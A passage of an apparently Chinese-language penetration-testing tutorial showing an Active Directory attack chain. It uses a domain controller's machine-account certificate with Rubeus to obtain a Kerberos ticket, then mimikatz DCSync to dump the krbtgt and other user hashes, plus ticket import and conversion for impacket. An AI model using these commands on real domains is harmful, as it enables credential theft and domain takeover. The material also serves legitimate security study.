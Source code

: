 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

Rubeus.exe asktgt /user:AD02$ /certificate:打印出来的base64的证书数据 /ptt

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182626.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182628.png)

  

然后使用mimikatz即可导出域内任意用户哈希

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

mimikatz.exe

#查看kerberos票据

kerberos::list

#导出krbtgt用户的hash

lsadump::dcsync /user:krbtgt /csv

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182631.png)

  

或者可以手动导入证书

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

kerberos::ptt ticket.kirbi

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182637.png)

  

也可以使用kekeo将.kirbi后缀的证书转换为 .ccache后缀的证书，然后使用impacket工具进行利用。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

misc::convert ccache ticket.kirbi

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182639.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  
